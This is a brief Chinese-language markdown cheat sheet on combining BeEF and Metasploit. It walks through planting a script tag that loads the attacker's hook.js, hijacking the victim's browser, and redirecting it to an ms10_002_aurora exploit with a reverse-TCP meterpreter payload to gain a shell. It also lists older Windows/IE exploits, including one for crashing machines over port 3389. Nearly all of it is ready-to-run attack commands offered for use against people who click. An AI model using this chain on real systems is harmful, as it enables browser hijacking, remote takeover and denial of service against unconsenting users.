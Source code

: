 # beef-xss
## XSS反弹
`<script> alert("hello XSS")</script>` 
## beef-xss 和 msf框架 组合
### 环境要求：
一台kali: 192.168.200.1
### 劫持
运行beef
`cd /use/share/beef-xss` \
`./beef` \
 \
会出现一个攻击地址和一个管理地址 \
`192.168.200.1:3000/hoos.js` /攻击地址 \
`<script>src="192.168.200.1:3000/hoos.js"</script>` /上传这个，有人点击，你就可以通过beef管理进行劫持 \
`192.168.200.1:3000/ui/panwl` /管理地址，账号密码都是beef \
里面有一个是redirect选项是网站劫持，这个配合msf IE漏洞，很好用
### 漏洞利用
`msfconsole` /运行msfconsole \
`use windows/browser/ms10_002_aurora` /使用模块 \
`set PAYLOAD windows/meterpreter/reverse_tcp` /设置攻击载荷 \
`show options` /显示设置参数 \
`set SRVHOST 192.168.200.1` /制作的网站地址 \
`set SRVPORT 7777` /制作的连接的端口 \
`set URIPATH /` /运行的环境目录 \
`set LHOST 192.168.200.1` /侦听的地址 \
`set LPORT 4444` /映射到的地址 \
`run` /制作 \
将生产的网址通过劫持网站访问，就可以拿到meterpreter,即拿到shell
### IE漏洞
ms10_018 \
ms10_046 \
ms12_004 \
ms08_067 /比较老的入侵漏洞 \
ms12_020 /通过3389，搞蓝屏 
